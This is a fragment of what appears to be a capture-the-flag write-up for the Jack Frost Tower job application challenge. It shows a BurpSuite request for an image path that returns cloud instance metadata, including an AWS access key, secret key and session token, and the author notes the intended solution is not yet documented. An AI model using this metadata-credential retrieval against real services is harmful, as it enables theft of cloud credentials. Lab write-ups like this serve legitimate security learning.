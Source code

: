 Looking at https://apply.jackfrosttower.com/?p=opportunities it seems the images contain some IMDS information. Trying out some combinations using BurpSuite Repeater ends in

```
GET /images/77.jpg HTTP/2
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
} 
```

Note: The server/application sadly was broken for a few days so I couldn't document the "real" way/the real solution here. I'll update it later.
